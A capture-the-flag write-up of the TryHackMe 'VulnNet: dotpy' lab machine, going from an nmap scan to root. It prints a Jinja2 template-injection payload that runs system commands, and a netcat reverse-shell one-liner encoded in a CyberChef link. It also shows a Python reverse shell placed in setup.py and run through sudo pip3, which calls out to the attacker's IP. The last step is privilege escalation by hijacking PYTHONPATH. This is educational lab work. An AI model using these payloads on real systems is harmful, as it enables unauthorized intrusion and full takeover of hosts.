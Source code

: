 ```yaml
---
title : "VulnNet: dotpy - Write Up"
date : 2021-07-12T12:39:34+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "TryHackMe's medium level machine."
tags : ["SSTI","Python","{{7*7}}","Burpsuite","sudo","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/vulnnetdotpy)  | Medium  |  [TheCyb3rW0lf](https://tryhackme.com/p/TheCyb3rW0lf)  |


## Reconn

We are scanning this machine first with `nmap` to check which ports are open/close/filtered.

```bash
╰─ lanfran@parrot ❯ map 10.10.43.197                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-12 12:49 CEST
Nmap scan report for 10.10.43.197
Host is up (0.067s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.43.197:8080/login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.12 seconds
```

Good! We have a `Python` web server running on port 8080.

Let's browse to it.

The page request us to login/register. But I tried to navigate to a non-existing page

![not_registered](not_registered.png)

Mmmm a 403 page, requisting us to login...

So let's do it, create a dummy user and login, so we can navigate to that page again...

Once loged in, navigate again to the non-existing page and let's see something very interesting

![logged_in](logged_in.png)

The page show us the requested endpoint, maybe we can exploit this...

So I used the common `{{7*7}}` exploit to check if it is vulnerable, and it returned 49!!

![exploit](exploit.png)


## Foothold - User

So we can exploit this with the following code.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('###CODE###')|attr('read')()}}
```
Where says `###CODE###` you can just put your system command, so let's use `burpsuite` to send the request with `id` and see which user are we

![id](id.png)

Good! We are the `web` user, let's encode our shell to hex so we can run it, here you have the shell and the perfect encoding in a [Cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgSVAgMTMzNyA%2BL3RtcC9m) !

Send it with burpsuite, and get your reverse shell with `netcat`

![user](user.png)

Perfect! We now have a reverse shell, so let's first run `sudo -l` to see if our user can run a command with any other user
```bash
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
web@vulnnet-dotpy:~$
```
Interesting, we can run `pip3 install` with user `system-adm`...

Reading the [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#shell) page, I created another reverse shell payload:

```bash
########VICTIM
web@vulnnet-dotpy:/tmp/project$ cat setup.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.160",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
web@vulnnet-dotpy:/tmp/project$ sudo -u system-adm /usr/bin/pip3 install .
Processing /tmp/project

########ATTACKER

╰─ lanfran@parrot ❯ nc -nlvp 1338                                                                                                  ─╯
listening on [any] 1338 ...
connect to [10.9.2.160] from (UNKNOWN) [10.10.43.197] 45420
$ id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
w$whoami
system-adm
$ cat /home/system-adm/user.txt
THM{[REDACTED]}
$
```

And now we can read the user's flag!

## Root

Once again with this new user, run `sudo -l` and we get this output:

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

So we can exploit a Pythonpath vulnerability, in this easy steps:


1. Create a malicious "python lib" named "zipfile.py" (That's being used by the script `backup.py`) in `/tmp`
2. Run this command `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py`

1) 	
```bash
system-adm@vulnnet-dotpy:~$ echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py
system-adm@vulnnet-dotpy:~$ cat /tmp/zipfile.py 
import pty; pty.spawn("/bin/bash")
```
2)
```bash
system-adm@vulnnet-dotpy:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
root@vulnnet-dotpy:/home/system-adm# id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-dotpy:/home/system-adm# whoami
root
root@vulnnet-dotpy:/home/system-adm# cat /root/root.txt 
THM{[REDACTED]}
root@vulnnet-dotpy:/home/system-adm# 
```

And we rooted the machine!

That's all from my side, hope you find this helpful!